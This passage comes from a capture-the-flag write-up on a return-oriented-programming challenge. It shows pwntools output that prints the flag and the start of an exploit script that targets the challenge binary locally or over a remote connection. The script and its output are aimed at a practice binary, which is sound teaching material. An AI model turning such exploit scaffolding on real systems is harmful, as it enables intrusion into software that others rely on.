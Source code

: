 Using this payload, we get the following output:

```py
>>> io = exe.process()
[x] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming'
[+] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming': pid 2187384
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming' stopped with exit code -11 (SIGSEGV) (pid 2187384)
uwu owo rawrxd
uwu
owo
rawrxd
maple{w-wop_is_pwetty_coow}

[*] Got EOF while reading in interactive
```

We successfully chained functions and ropgadgets to meet the conditions for the `win` function to print
the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1444 wetuwn-owiented-pwogwamming
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('wetuwn-owiented-pwogwamming')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1444)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
```